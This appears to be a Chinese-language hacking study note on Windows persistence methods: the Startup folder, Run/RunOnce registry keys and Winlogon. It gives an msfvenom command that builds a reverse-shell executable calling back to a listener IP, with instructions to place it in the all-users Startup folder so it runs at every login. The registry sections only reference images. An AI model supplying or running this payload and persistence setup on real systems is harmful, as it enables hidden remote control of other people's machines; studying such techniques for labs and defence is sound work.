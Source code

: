 
## 启动文件夹

位置在：
```
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

msf生成一个rev payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.169 LPORT=4450 -f exe -o revshell.exe
```

上面生成的payload拷贝到这个文件夹下，所有用户登录都会运行
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

重新登录触发

## Run / RunOnce

这里是在注册表里设置一个登录运行的程序，位置在

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/c99038cd6cc9e37512edabb1f873a4da.png)


重新登录触发

## Winlogon

同样是改注册表，位置在：
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/dc5fa3e75ff056f11e16c03373799f45.png)
